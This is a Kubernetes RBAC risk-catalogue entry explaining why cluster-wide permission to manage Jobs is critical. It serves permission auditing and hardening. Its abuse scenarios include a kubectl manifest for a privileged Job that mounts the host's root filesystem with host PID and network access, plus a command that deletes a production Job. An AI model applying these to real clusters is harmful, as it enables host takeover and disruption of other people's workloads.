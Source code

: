 ```yaml
---
id: 1041
title: "Manage Jobs cluster-wide (one-off privileged execution)"
description: "Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                     |
| ------------- | ----------------------------------------------------------------------------------------- |
| ID            | 1041                                                                                      |
| Name          | Manage Jobs cluster-wide (one-off privileged execution)                                   |
| Risk Category | Elevation of Privilege                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                     |
| Role Type     | ClusterRole                                                                               |
| API Groups    | batch                                                                                     |
| Resources     | jobs                                                                                      |
| Verbs         | create, update, patch, delete                                                             |
| Tags          | {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting Jobs across all namespaces. Jobs create one or more pods for batch tasks. This can be used to run a one-off pod with privileged settings, leading to code execution, privilege escalation, and tampering.

## Abuse Scenarios

1. Create a new Job that runs a privileged pod once.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: privileged-job
spec:
  template:
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: attacker
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Job Pwned!' > /host/job_pwned.txt"]
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Delete a critical Job, preventing a one-off task from completing.

```bash
kubectl delete job <job-name> -n <namespace>
# Example: kubectl delete job db-migration-job -n production

```

